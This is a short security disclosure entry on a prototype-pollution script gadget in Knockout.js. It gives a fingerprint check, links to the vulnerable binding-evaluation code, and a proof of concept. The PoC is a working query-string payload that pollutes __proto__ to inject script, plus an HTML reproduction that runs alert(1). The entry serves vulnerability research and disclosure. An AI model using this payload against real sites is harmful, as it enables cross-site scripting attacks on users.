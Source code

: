 ## Knockout.js

URL: https://github.com/knockout/knockout/

### JS Fingerprint
```
(typeof ko !== 'undefined' && typeof ko.version !== 'undefined')
```

### Vulnerable code fragment
https://github.com/knockout/knockout/blob/3281f7308846fa76e294c77295ce6312ae350583/src/binding/expressionRewriting.js#L46-L61
https://github.com/knockout/knockout/blob/9893233413e467a40919237e524b545e335c1050/src/binding/bindingProvider.js#L63-L68
```js
    function createBindingsStringEvaluator(bindingsString, options) {
        // Build the source for a function that evaluates "expression"
        // For each scope variable, add an extra level of "with" nesting
        // Example result: with(sc1) { with(sc0) { return (expression) } }
        var rewrittenBindings = ko.expressionRewriting.preProcessBindings(bindingsString, options),
            functionBody = "with($context){with($data||{}){return{" + rewrittenBindings + "}}}";
        return new Function("$context", "$element", functionBody);

    ...

    function parseObjectLiteral(objectLiteralString) {
        ...
        if (toks.length > 1) {
            for (var i = 0, tok; tok = toks[i]; ++i) {
```

### PoC

* Can be exploited through Array.prototype

```
?__proto__[4]=a':1,[alert(1)]:1,'b&__proto__[5]=,
```

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/knockout/3.5.1/knockout-latest.js"></script>
<strong data-bind="text:'hello'"></strong>
<script>
  Object.prototype[4]="a':1,[alert(1)]:1,'b";
  Object.prototype[5]=',';
</script>
<script>
  ko.applyBindings({})
</script>
```